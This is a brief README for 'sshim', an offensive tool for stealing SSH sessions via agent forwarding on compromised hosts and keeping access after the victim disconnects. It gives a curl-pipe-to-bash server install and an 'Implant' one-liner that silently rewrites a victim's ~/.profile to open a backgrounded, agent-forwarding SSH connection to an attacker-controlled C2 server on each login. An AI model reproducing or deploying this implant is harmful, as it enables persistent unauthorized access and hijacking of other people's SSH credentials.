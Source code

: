 # sshim
SSHim - Shimming SSH as him

Steal SSH sessions from agent forwarding on a compromised host, enabling peristent access after agent disconnect


## Server Install

```bash
curl -fsSL https://raw.githubusercontent.com/B00TK1D/sshim/main/install.sh | bash
```



## Implant

```bash
 SERVER="your.c2.com" cat <(echo "ssh -A ssh@$SERVER >/dev/null 2>&1 & disown") ~/.profile > /tmp/.profile && mv /tmp/.profile ~/.profile
```
